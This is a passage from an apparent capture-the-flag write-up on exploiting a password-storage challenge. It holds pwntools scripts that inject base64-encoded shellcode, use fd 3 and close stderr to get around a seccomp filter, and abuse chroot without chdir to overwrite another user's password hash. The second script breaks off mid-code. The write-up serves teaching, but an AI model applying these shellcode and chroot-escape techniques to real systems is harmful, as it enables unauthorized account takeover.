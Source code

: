 ```py
    login(idx, mypwd)  ## login

    shellcode = b64encode(
        asm(
            "push 0\n"  ## nanoseconds
            + "push 6\n"  ## seconds
            + "mov rdi, rsp\n"  ## 1st argument for nanosleep
            + "xor rsi, rsi\n"  ## 2nd argument can be NULL
            + f"mov rax, {constants.SYS_nanosleep}\n"
            + "syscall\n"
            + shellcraft.lseek(3, idx * (256 // 8), constants.SEEK_SET)
        )
    )
    run_shellcode(shellcode)  ## run our shellcode
    logout()
    login(to_pwn, mypwd, sleep=2)  ## sleep before sending the password

    io.interactive()


if __name__ == "__main__":
    main()

```

#### The (probably?) unintended solution

Remember what we said earlier? The child process calls `chroot` with the directory of our user (`data/N`, with N the user ID). By reading the `chroot` manual carefully, we can notice that there is a slight problem: this `chroot` is completely useless. The manual explains that:

> This call does not change the current working directory, so that after the call '.' can be outside the tree rooted at '/'.

It is possible to confirm this by writing a simple C program to try to `chroot` inside a directory without calling `chdir` into it. You will notice that the `pwd` does not change, nor the process is really inside the `chroot`.

We can abuse this to modify the password file! In particular, we write to our target a sha256 password of our choice.

Here's the script that implements the attack (functions and utils are defined as above):

```py
def main():
    global io

    pwned_pwd = os.urandom(16).hex().encode()  ## random password
    to_pwn = 0

    ## good luck pwning :)
    mypwd = os.urandom(16).hex().encode()
    idx = register(mypwd)
    login(idx, mypwd)

    shellcode = b64encode(
        asm(
            ## rax contains the address of our shellcode page,
            ## which we can use for writing stuff easily
            "push rax\n"
            ## we save it in r15 for future usage, with an
            ## offset to make sure we don't overwrite our shellcode
            + "pop r15\n"
            + "add r15, 0x300\n"
            ## we cannot write to fd >= 3 due to seccomp,
            ## therefore we close stderr and reopen passwords,
```